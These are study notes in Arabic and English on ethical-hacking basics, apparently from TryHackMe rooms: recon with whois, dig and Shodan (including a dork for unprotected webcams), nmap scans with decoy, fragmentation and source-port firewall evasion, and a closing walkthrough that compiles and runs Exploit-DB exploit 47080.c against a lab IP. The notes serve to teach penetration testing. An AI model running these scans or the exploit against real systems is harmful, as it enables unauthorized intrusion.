### what is Hacking 
Hacking refers to ==exploiting system== ==vulnerabilities ثغرة== and compromising security
controls to gain ==unauthorized access to a system's resources==

**استغلال ثغرة ل الحصول ع الصلاحيات ع النظام**
### Hacker Classes
- Black Hat     غرضة مش تمام عايز يسرق بينات بنك ويبعه عىالدرك ويب الخخ
- White Hat النبيل هه ,واخد صلحيات انه يعمل تيست او اختراق ع النظام من الشركة وبعدا ما يخترق    يسلم ربورت ل الشركة بالثغرة
- Grey Hat       شغال بين الاتنين الي فوق ومش موثوق او شخص ليه كلمة ممكن يبيعك
- Suicide Hackers      الانتحاري,اهم حاجة عنده انه يعمل اختراق مش مهم انه يتشكشف  
- Script Kiddies         معندمش مهارة بيجربوا بدون دراسة 
- Cyber Terrorist        الارهاب, بيحب يعمل دوشة ف العالم وخلاص 
- State-Sponsored    الجيش الاكتروني للدولة
- Hacktivist               شخص عنده قضية معينة وبيدافع عنها 



### Hacking Phases خطوات 
- Reconnaissance = **Information Gathering** => جمع معلومات عن الهدف
- Scanning =========>      معرفة نقاط الضعف ف الهدف
- Gaining access  =====>   استغلال الثغرة
- Maintaining access  ==> بتعمل باب تاني backdoor بعيد عن الثغرة عشان تقدر ترجع النظام تاني لو الثغرة اتقفلت
- Covering =========>  مسح الاثارة من ورأك
### TOOLS


> [!whois]
> -أداة تُستخدم للحصول على معلومات مسجلة عن **نطاق (Domain)** من خوادم WHOIS 
>  Domain registration info

----------------------------------------------------------------------------------|  التحميل في لينكس
sudo apt update
sudo apt install whois -y

> Example Executing  

```
whois tryhackme.com
```




#### **تواريخ مهمة:**

- **Creation Date** – تاريخ إنشاء الدومين.
    
- **Last Updated Date** – آخر مرة تم فيها تعديل البيانات.
    
- **Expiration Date** – التاريخ الذي سينتهي فيه النطاق إذا لم يتم تجديده.

#### **Registrar وRegistrant:**

- **Registrar**: هي الشركة المسجلة للنطاق (زي Namecheap).
    
- **Registrant**: هو الشخص أو الجهة المالكة للنطاق (أحيانًا بيتم إخفاؤها لو فيه خدمة خصوصية مفعّلة).

#### **Admin و Tech Contacts:**

لو مش مخفيين، ممكن تشوف معلومات عن الشخص المسؤول إداريًا وتقنيًا عن النطاق.
#### **DNS Servers:**

ودي السيرفرات اللي بتتعامل مع استفسارات DNS الخاصة بالنطاق.

#استخدام_هذه_البيانات_في_اختبار_الاختراق:

المعلومات اللي تم جمعها ممكن تستخدم في:

- **الهندسة الاجتماعية (Social Engineering)**: مثلاً استخدام الإيميل الظاهر للتواصل مع الشخص وخداعه.
    
- **هجمات تقنية**: زي استهداف DNS أو البريد الإلكتروني لو كانوا داخل نطاق الاختبار.


---


> [!nslookup]
> -
أداة تُستخدم للاستعلام من **DNS servers** للحصول على سجلات الدومين (مثل IP).

| Query type |       Result       |           المعني           |
| :--------- | :----------------: | :------------------------: |
| A          |   IPv4 Addresses   |         عنوان IPv4         |
| AAAA       |   IPv6 Addresses   |         عنوان IPv6         |
| MX         |    Mail Servers    |        خوادم البريد        |
| CNAME      |   Canonical Name   |        الاسم البديل        |
| SOA        | Start of Authority | بيانات المسؤولية عن النطاق |
| TXT        |    TXT Records     |     سجلات TXT مثل SPF      |
> Example Executing  

```
nslookup -type=A tryhackme.com 1.1.1.1
```




> [!dig]
> - أداة أخرى للاستعلام من **DNS servers** لكنها أكثر قوة ومرونة وبتديك تفاصيل أكتر من nslookup.

| Query type |       Result       |           المعني           |
| :--------- | :----------------: | :------------------------: |
| A          |   IPv4 Addresses   |         عنوان IPv4         |
| AAAA       |   IPv6 Addresses   |         عنوان IPv6         |
| MX         |    Mail Servers    |        خوادم البريد        |
| CNAME      |   Canonical Name   |        الاسم البديل        |
| SOA        | Start of Authority | بيانات المسؤولية عن النطاق |
| TXT        |    TXT Records     |     سجلات TXT مثل SPF      |
> Example Executing  

```
dig tryhackme.com MX
or
dig @1.1.1.1 tryhackme.com MX --> تحديد سيرفر DNS

```


- **@1.1.1.1**: معناها استخدم خادم Cloudflare بدل الـ DNS المحلي.
    
- **MX**: معناها نستعلم عن سجلات البريد.


|الجانب|`nslookup`|`dig`|
|---|---|---|
|سهولة الاستخدام|أسهل للمبتدئين|يحتاج معرفة أكبر|
|كمية المعلومات|قليلة وبسيطة|مفصلة جدًا|
|المرونة|متوسطة|عالية جدًا|

#لو_كنت_بتجمع_معلومات_عن_شركة،_تقدر_تستخدم_dig_للحصول_على

- عناوين البريد الخاصة بالنطاق (MX)
    
- سجلات TXT (غالبًا فيها SPF، DKIM)
    
- عناوين IP للسيرفرات
> Example Executing  

```
dig thmlabs.com TXT

```




#### الفرق بين `dig` و `nslookup` و `whois`:

| الوظيفة الأساسية                                                  | البروتوكول المستخدم | الاستخدام الرئيسي                      | Tool       |
| ----------------------------------------------------------------- | ------------------- | -------------------------------------- | ---------- |
| يعرفك مين اشترى الدومين، تواريخ التسجيل، الشركة المسجِّلة،... إلخ | WHOIS protocol      | جمع معلومات تسجيل النطاق (Domain info) | `whois`    |
| يجيبلك IP أو سجلات البريد أو أي نوع من سجلات DNS                  | DNS protocol        | الاستعلام عن سجلات DNS                 | `nslookup` |
| زي `nslookup` بس أكثر قوة وتفاصيل                                 | DNS protocol        | استعلام متقدم عن سجلات DNS             | `dig`      |
|                                                                   |                     |                                        |            |

---


> [!NOTE] DNSDumpster
> موقع/أداة لفحص DNS (DNS Reconnaissance) , يعطيك خريطة DNS لأي نطاق, يمكنه اكتشاف الـ **subdomains** (النطاقات الفرعية).

#### لماذا نبحث عن Subdomains؟

##### 🎯 لأن النطاقات الفرعية ممكن تحتوي على:

- صفحات قديمة أو غير محدثة = ثغرات محتملة
    
- خدمات مثل `webmail.` أو `dev.` أو `test.` أو `admin.` = أهداف مغرية جدًا
    
- بيئة تطوير أو نسخة staging
    
- واجهات API أو لوحات تحكم

#### طريقتان أساسيتان لاكتشاف Subdomains:

##### 🔸 1. **البحث اليدوي باستخدام Google Hacking (Dorks)**

استخدم أوامر في محركات البحث مثل:

**`site:tryhackme.com -www`**
or
**`site:*.tryhackme.com`**

ممكن تطلعلك نطاقات فرعية مثل:

- `blog.tryhackme.com`
    
- `wiki.tryhackme.com`
    

لكن لازم تشوف أكتر من محرك بحث (Google, Bing, DuckDuckGo).


##### 🔸 2. **أدوات / مواقع متخصصة (مثل DNSDumpster )**

 ✅ أفضل أداة مجانية أونلاين هي:

###### 🔗 https://dnsdumpster.com

 خطوات الاستخدام:

1. افتح الموقع.
2. اكتب `tryhackme.com` في خانة البحث.
3. اضغط **Search**.
4. هتشوف:
    - Subdomains (مثل: `blog.tryhackme.com`)
        
    - DNS records (A, MX, TXT...)
        
    - IP addresses
        
    - مواقع السيرفرات (Geolocation)
        
    - رسم بياني للشبكة ==مهمة==


---


> [!NOTE] **Shodan.io**
>  محرك بحث للأجهزة والخدمات المتصلة بالإنترنت (Internet of Things search engine).
البحث عن كاميرات، راوترات، سيرفرات، قواعد بيانات، إلخ
يكشف الخدمات المفتوحة (Open ports & banners) 
يُستخدم لمعرفة الثغرات أو الأجهزة غير المؤمنة.

#### كيف تستخدم Shodan كمخترق أخلاقي؟

- تبحث عن الأجهزة اللي فيها **بورت SSH مفتوح** في بلد معين:
`port:22 country:"EG"`

- تبحث عن **أجهزة Webcams غير محمية بباسورد**: 
`"webcamxp"`
- تبحث عن أجهزة مرتبطة بدومين شركتك:

`hostname:"example.com"`


==These two online services allow us to collect information about our target without directly connecting to it.== 

#### 🧠 الخلاصة:

| الأداة      | الوظيفة الرئيسية                   | هل تتصل بالهدف؟ |
| ----------- | ---------------------------------- | --------------- |
| whois       | معلومات تسجيل الدومين              | ❌               |
| nslookup    | استعلامات DNS (A, MX, TXT)         | ❌               |
| dig         | استعلامات DNS بتفصيل أكبر          | ❌               |
| DNSDumpster | معرفة DNS/Subdomains رسوميًا       | ❌               |
| Shodan.io   | البحث عن أجهزة مكشوفة على الإنترنت | ❌               |


### Active Reconnaissance Room 

نوع من أنواع جمع المعلومات (الاستطلاع النشط) بيتم فيه *الاتصال المباشر* مع الهدف. الاتصال ده ليه طرق مختلفة :-

- مكالمة تليفون.
    
- زيارة فعلية للشركة بهدف تمويه أو خداع ---> Social Engineering 
     
- توصل مباشرة بسيرفر أو جهاز تابع للهدف، زي:
     
- زيارة الموقع الإلكتروني الخاص بيهم.
    
- فحص إذا كان بورت SSH مفتوح عندهم (زي إنك بتجرب تفتح باب وتشوف مقفول ولا لأ).


#### ⚠️ نقطة مهمة جدًا:

**لا يجوز** تبدأ أي خطوة من خطوات الاستطلاع النشط **إلا لو معاك تصريح قانوني وموقع من الجهة المالكة للهدف.**


#### 🛠 الأدوات المستخدمة:

1. **متصفح الويب** + أدوات المطور (Developer Tools):
    - بيتم تحويل المتصفح لأداة قوية لجمع معلومات، خصوصًا عن المواقع.
    - فيه واجهة رسومية بتساعد، بس محتاجة شوية تمرين.
    
2. **أدوات سطر الأوامر (Command-Line Tools)**:

    - `ping`  ---------------------------------- لاختبار الاتصال.
        
    - `traceroute` --------------------لتتبع المسار إلى الهدف.
        
    - `telnet` -- لفحص البورتات أو التواصل مع خدمات الشبكة.

#### ليه المتصفح مفيد؟

لأنه:
- متاح في كل الأنظمة (Windows – Linux – macOS).
    
- سهل الاستخدام.
    
- بيقدر يتصل بالخدمات على الإنترنت مباشرة.

|البروتوكول|البورت الافتراضي|المعنى|
|---|---|---|
|HTTP|80|تصفح غير مشفر|
|HTTPS|443|تصفح مشفر وآمن|
- لو كتبت: `http://example.com` → المتصفح يتصل تلقائيًا على **port 80**.
    
- لو كتبت: `https://example.com` → يتصل تلقائيًا على **port 443**.

المتصفح ما بيكتب البورت في العنوان لأنه **افتراضي**، لكن لما يكون البورت **غير افتراضي**، لازم تكتبه.

#### 📌 متى نستخدم بورت غير افتراضي؟

لو الخدمة شغالة على بورت مختلف، لازم تحدده بنفسك

`https://127.0.0.1:8834/`

#### 🧩 إيه اللي تقدر تشوفه داخل أدوات المطور؟

1. **JavaScript files**:
    - تقدر تشوف الكود اللي بيشتغل في الموقع.

2. **Cookies**:
    - بتشوف الكوكيز اللي السيرفر حطها في جهازك.
    - ممكن تكشف معلومات عن جلسات أو هوية المستخدم.

3. **Network tab (علامة الشبكة)**:
    - بتشوف كل الطلبات اللي حصلت بين المتصفح والسيرفر.
    - تعرف الملفات اللي اتحملت، وحالة كل طلب (200, 404, 403…).

4. **Folder structure**:
    - تقدر تستعرض ملفات الموقع وتنظيمها.
    - مفيد لتتبع ملفات JS أو صفحات فرعية.
#### 🕵️‍♂️ ليه ده مهم في الهاكينج الأخلاقي؟

- تعرف البنية الداخلية للموقع بدون الوصول المباشر للسيرفر.
    
- تكتشف نقاط ضعف في الجافاسكربت (زي XSS).
    
- ممكن تلاقي endpoints مخفية أو مسارات API.

#### 🧩 إضافات مفيدة في اختبار الاختراق:

##### 1.  FoxyProxy
🔄 **الوظيفة:**  
بتساعدك على **تبديل البروكسي بسرعة** داخل المتصفح.

🕵️‍♂️ **فايدتها:**

- مفيدة جدًا لما تستخدم أدوات زي **Burp Suite** أو **OWASP ZAP**.
- بدل ما تغيّر إعدادات البروكسي يدويًا كل شوية، تقدر تبدّل بين أكثر من بروكسي بضغطة واحدة.

🔗 موجودة على Firefox وChrome.

📎 مثال الاستخدام:  
توصل المتصفح بـ Burp Suite عشان تراقب كل الطلبات اللي بتخرج من المتصفح وتعدل عليها.

 📌 **==ما هو Burp Suite؟==**
هو **برنامج وسيط (Proxy Tool)** يسمح لك باعتراض وتعديل وتحليل الطلبات (Requests) والردود (Responses) بين المتصفح والخادم (Server). يستخدم في عدة مراحل من اختبار الأمان.

##### 2.  User-Agent Switcher and Manager
🎭 **الوظيفة:**  
بتخليك **تغيّر الـ User-Agent** بتاع المتصفح.

👀 **يعني إيه؟**  
كل متصفح أو جهاز ليه تعريف خاص (User-Agent)، زي:

- Chrome على ويندوز
- Safari على iPhone
- Firefox على Linux

📌 بالتالي تقدر **تخدع الموقع** وتخليه يعتقد إنك بتستخدم جهاز أو متصفح مختلف.

🧠 مفيد في:
- اختبار كيفية تفاعل الموقع مع أجهزة مختلفة.
- تجاوز بعض القيود اللي بتعتمد على نوع المتصفح أو النظام.
##### 3.  Wappalyzer

🔍 **الوظيفة:**  
يعرضلك **التقنيات المستخدمة في الموقع** اللي بتزوره.

📦 مثال: تقدر تعرف إذا الموقع بيستخدم:
- WordPress / Joomla
- Apache / Nginx
- jQuery / React
- Google Analytics / Cloudflare
🧠 **فايدته:**

- بيعطيك **معلومات استخباراتية تقنية (Tech Intelligence)** عن السيرفر.
- تقدر تستخدم البيانات دي لتحديد أنواع الهجمات المناسبة أو الثغرات المحتملة.


##### 🟢 Ping ( أداة اختبار الاتصال )
- هو أمر بنستخدمه علشان **نتأكد إذا كان جهاز معين شغال (أونلاين)** ومتوصل بالشبكة.
    
- بيبعث "حزمة اختبار" (ICMP Echo Request) لجهاز تاني.
    
- لو الجهاز شغال ومافيش جدار ناري بيمنع الرد، الجهاز هيرد بـ "ICMP Echo Reply".

 🔍 ***ما هي ICMP؟***

- بروتوكول اسمه **Internet Control Message Protocol**.
- بروتوكول مساعد في الشبكات، بيستخدمه ping.
- أهم نوعين نهتم بيهم:
    - **Type 8**: ICMP Echo *Request* → الباكيت اللي بنبعتها.
    a- **Type 0**: ICMP Echo *Reply* → الباكيت اللي بنستلمها من الهدف.

```
ping MACHINE_IP
-------or----------
ping tryhackme.com

```

- هيفضل يبعث باكيتات بدون توقف.
- اضغط `Ctrl + C` لإيقافه يدويًا
- 
 ▶️ ***إرسال عدد محدد من الباكيتات (مثلاً 10):***
```
ping -c 10 MACHINE_IP    |  -c in linux && -n in win
```
 
 ***فائدة الأمر في اختبار الاختراق:***

- تتأكد إن الجهاز شغال قبل ما تبدأ أدوات ثقيلة زي `nmap`.
    
- تتأكد إن مفيش **Firewall بيمنع ICMP**.
    
- تشوف سرعة الاستجابة (Latency).
    
- تتأكد إن الشبكة ما فيهاش مشاكل توصيل.


##### 🟢 Traceroute ( tracert في ويندوز )
*✅ الفكرة العامة:

كلمة `traceroute` معناها "تتبع المسار"، وهي أداة بتسمحلك بـ:

1. معرفة **عدد أجهزة التوجيه (routers/hops)** اللي بتمر بيها البيانات من جهازك إلى الهدف.
    
2. معرفة **عناوين IP الخاصة بالراوترات** على الطريق.
    
3. تحليل **مسار الشبكة** وتحديد إذا فيه مشاكل أو تأخير.

*كيف تعمل traceroute؟

باستخدام بروتوكول ICMP وشيء اسمه TTL (Time To Live).


- TTL = عدد الراوترات اللي يُسمح للباكيت تمر بيها قبل ما تتلغى (تنتهي صلاحيتها).
    
- رغم إن الاسم فيه "Time"، هو مش وقت حقيقي.
     
- كل ما الباكت تمر على راوتر، الـ TTL يقل بمقدار 1.
     
- لو TTL وصل لـ 0، الراوتر يرفض الباكت ويرجع رسالة ICMP تقول "Time Exceeded".

`لينكس`
```
traceroute 10.10.250.91
```

`ويندوز`
```
tracert 10.10.250.91
```


🧠***إزاي Traceroute بيستخدم ده؟

البرنامج بيبعث مجموعة باكيتات بنفس الهدف، لكن بـ TTL مختلفة:

| الباكيت رقم | TTL | اللي هيحصل                                |
| ----------- | --- | ----------------------------------------- |
| الأولى      | 1   | تتوقف عند أول راوتر، ويرد بعنوان IP بتاعه |
| الثانية     | 2   | توصل للراوتر الثاني، وهكذا...             |
| ...         | ... | ...                                       |
| الأخيرة     | n   | توصل للهدف النهائي                        |

وهكذا، تقدر تعرف:
- **كل راوتر على الطريق**
- **عدد القفزات (hops)** بينك وبين الهدف

***📌 ملحوظة:
- المسار ممكن يتغير لو الشبكة فيها بروتوكولات توجيه ديناميكية (زي OSPF, BGP).
- بعض الراوترات قد **تمنع الرد على ICMP**، ووقتها هتشوف نجوم `* * *` بدل الرد.

| الوظيفة                                | Tool                     |     |
| -------------------------------------- | ------------------------ | --- |
| تتأكد إن الهدف شغال                    | `ping`                   |     |
| تعرف عدد الراوترات وعناوينهم في الطريق | `traceroute` / `tracert` |     |

#### 🛰️ Network Discovery
 

أدوات تُستخدم في **اكتشاف الأجهزة على الشبكة**

> [!NOT] 🔶Nmap
> أداة قوية لفحص الشبكات

**Option ** 

> [!code] Nmap
>nmap -n 192.168.1.0/24

 `-n`: يمنع حل أسماء النطاقات (DNS resolution) لتسريع الفحص.

 **TCP Connect Scan** (`-sT`)
> [!code] Nmap
> nmap -sT 192.168.1.1

 🔸 الاتصال بيتم بشكل كامل (3-way handshake).  
🔸 بيبان جدًا في اللوجات بتاعت السيرفر.  
🔸 بيشتغل لو مش معاك صلاحيات root.
**YN Scan (Half-Open / Stealth)** (`-sS`)

> [!code] Nmap
> sudo nmap -sS 192.168.1.1

🔸 بيرسل SYN بس، ويقرأ الرد، **من غير ما يكمل الاتصال**.  
🔸 سريع وصعب يتكشف.  
🔸 لازم تشغله بصلاحيات root.

🧠 لو الرد كان:


- SYN/ACK → المنفذ مفتوح
- RST → مغلق
- 
**Ports 

> [!code] Nmap
> sudo nmap -p 80 192.168.1.1
> ---------------- or ------------------
> sudo nmap -p- 192.168.1.1 ==============> all ports
	

#لو_انت_في_اختبار_اختراق_أو_تدريب_CTF_استخدم_دايمًا

> [!code] Nmap
> sudo nmap -sS -sV -O -T4 192.168.1.2

- `-sV`: يكشف إصدارات الخدمات
    
- `-O`: يحدد نوع النظام
    
- `-T4`: يسرّع الفحص


> [!code] Nmap
> nmap -f 192.168.1.100

🔹 ده بيمسح الهدف `192.168.1.100` باستخدام حزم مجزأة.  
🔹 الشبكة الهدف قد لا تكتشف أنك بتجري مسح لأنها ما بتجمعش الحزم دي كويس.


> [!code] Nmap
>nmap -D 10.1.1.1,11.1.1.1,12.1.1.1,192.168.1.5 192.168.1.2
> nmap -D  --------,--------,---------,------------ ------------

- `-D`  سمح لك بإخفاء هويتك كمهاجم من خلال إرسال حركات (traffic) من عناوين IP وهمية (طُعم)


> [!code] Nmap
> nmap -g 53 -p 80,443 192.168.1.2
- الهدف: محاولة خداع الجدار الناري بأن الاتصال قادم من بورت 53، وأنك تفحص البورتات 80 و443.
  
- `-g` source port(وليس البورت الذي يتم فحصه) Nmap  تحديد رقم البورت الذي تخرج منه حزمةالـ 
- `-p`  هذا الخيار يحدد البورت أو مجموعة البورتات التي تريد فحصها على الهدف
- `-p-`  يفحص **كل البورتات الـ 65535** 

 ⚠️**ملاحظات:

- `-g` لا يُخفي الهوية مثل `-D`، ولكنه يساعد في **التحايل على أنظمة الحماية**.
    
- بعض الأنظمة قد تسجّل ذلك في الـ logs.


> [!code] Nmap
> nmap -oN Name file ------ 192.168.1.2

حفظ نتائج المسح في ملف بصيغة عادية (Normal)

 ✅***صيغ الحفظ التانية:

|الخيار|الوظيفة|
|---|---|
|`-oN`|Output عادي قابل للقراءة البشرية (Normal)|
|`-oX`|Output بصيغة XML|
|`-oG`|Output بصيغة Grepable (للسكربتات مثل grep)|
****


> [!NOTE] 🔶Netdiscover
> أداة تعتمد على ARP لاكتشاف الأجهزة في الشبكة المحلية.

> [!code] Netdiscover
>netdiscover -r 192.168.1.0/24  ----> root ------or------- sudo in user Normal
- `-r`: يحدد الرينج (النطاق) الذي سيتم فحصه.
- يُظهر الأجهزة النشطة على الشبكة المحلية فقط، عناوين IP و MAC.


****


> [!NOTE]  🔶arp-scan
> أداة ARP متخصصة لاكتشاف الأجهزة المتصلة.

> [!code] arp-scan
>sudo arp-scan -l
- `-l`: يعني "localnet" أي مسح الشبكة المحلية الحالية تلقائيًا.
- يُظهر كل الأجهزة على الشبكة، حتى لو كانت لا تستجيب للـ ping.


****
****
****


**** 🟨 مقارنة سريعة:

| الأداة        | تعتمد على   | مميزاتها                     | ملاحظات    |
| ------------- | ----------- | ---------------------------- | ---------- |
| `nmap`        | IP/Ping/TCP | قوي ويكشف المنافذ والخدمات   | أبطأ وأشمل |
| `netdiscover` | ARP         | سريع ويكشف MAC/IP            | فقط LAN    |
| `arp-scan`    | ARP         | أدق وأوضح في الشبكات المحلية | فقط LAN    |


***
***
***


#### 🎯  استغلال الثغرات (Exploit)



 `ssl/https         Apache httpd 1.3.20`
 
بعد ما عملنا فحص وعرفنا ان في خدمة `service` مفتوحة وبحثنا عليها ولقينا ثغرات فيه بالـ `Version`  ونزلنا الملف هنفتحة ونشوف `المطلوب`

- موقعين مهمة ل البحث عن ثغرة فيهم  `Rapid7` و `Exploit-DB`



- ننزل المكتبة دي ولو في `Error`  نبحث ونحله ====> Chat GPT
	
- 
> [!code] gcc run in linux
> gcc 47080.c -o modssl -lcrypto     

- كومبلير  الملف `47080.c` الملف الي نزلناه
- `-o` modssl ده بيحدد اسم الملف الناتج بعد الترجمة.


> [!bug] Atack
>  ./modssl 0x6b 192.168.1.2 443 -c 45

`modssl`  ---------> ملف الثغرة بعد ما نزل واتعمله كومبيلر بالاسم دا  
 `./modssl` ------->  ` 47080.c`   تشغيل السكريبت بعد ما كمبّلته من 
`0x6b`  ------------> في تعيمات الملف Version  ده معرف الشيل كود بتاعت ال 
`192.168.1.2`-----> ip الجهاز الي رايحله
`443` --------------> Port Service  == HTTPS
`-c 45` ------------> (connections) ده غالبًا عدد الاتصالات المتزامنة 


> [!NOTE] searchsploit
> البحث في **Metasploit** اوفلاين (باستخدام `searchsploit`  طريقة تاني للبحث عن الثغرة وتنزيل ملفها 


> [!code] searchsploit
> searchsploit mod_ssl 2.8.4

ده هيعرض لك كل الإكسبلويتات المتاحة محليًا في Kali ضمن قاعدة بيانات `Exploit-DB`


> [!code] searchsploit 
> searchsploit -m  ---Exploit Path or ID----
> searchsploit -m  ----  47080.c ----

